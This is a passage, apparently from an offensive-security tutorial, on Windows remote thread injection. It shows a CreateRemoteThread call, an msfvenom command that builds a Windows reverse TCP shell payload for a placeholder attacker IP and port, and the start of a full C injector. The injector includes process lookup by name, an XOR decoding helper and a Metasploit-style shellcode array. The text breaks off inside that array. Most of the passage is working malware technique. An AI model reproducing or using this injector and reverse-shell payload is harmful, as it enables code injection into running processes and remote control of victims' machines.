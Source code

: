 ### Application of the function in the context of our Remote Thread Injection:
```c
  HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (remoteThread == NULL) {
        std::cout << "[-] Failed to create remote thread.\n";
        return 1;
    }
    std::cout << "[+] Remote thread created .\n";

    // Cleaning up the handles
    CloseHandle(remoteThread);
    CloseHandle(processHandle);
```

## Shellcode:
In the context of Remote Thread Injection, the shellcode is crafted in low-level languages like C or Assembly. It's crucial to encode the shellcode in hexadecimal because the binary code needs to be delivered in a compact and readable way. It's lightweight since each hexadecimal digit represents 4 bits.

Here’s an example of how we define a shellcode in hexadecimal:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f c
```
## Our example code looks like this:
```c
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

DWORD GetProcessIdByName(const wchar_t* processName) {
    DWORD pid = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot != INVALID_HANDLE_VALUE) {
        PROCESSENTRY32 pe;
        pe.dwSize = sizeof(pe);
        if (Process32First(snapshot, &pe)) {
            do {
                if (wcscmp(pe.szExeFile, processName) == 0) {
                    pid = pe.th32ProcessID;
                    break;
                }
            } while (Process32Next(snapshot, &pe));
        }
        CloseHandle(snapshot);
    }
    return pid;
}

void xorDecode(wchar_t* str, size_t len, wchar_t key) {
    for (size_t i = 0; i < len; i++) {
        str[i] ^= key;
    }
}

int main() {
    unsigned char shellcode[] = {
    "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
    "\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26"
    "\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7"
    "\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78"
```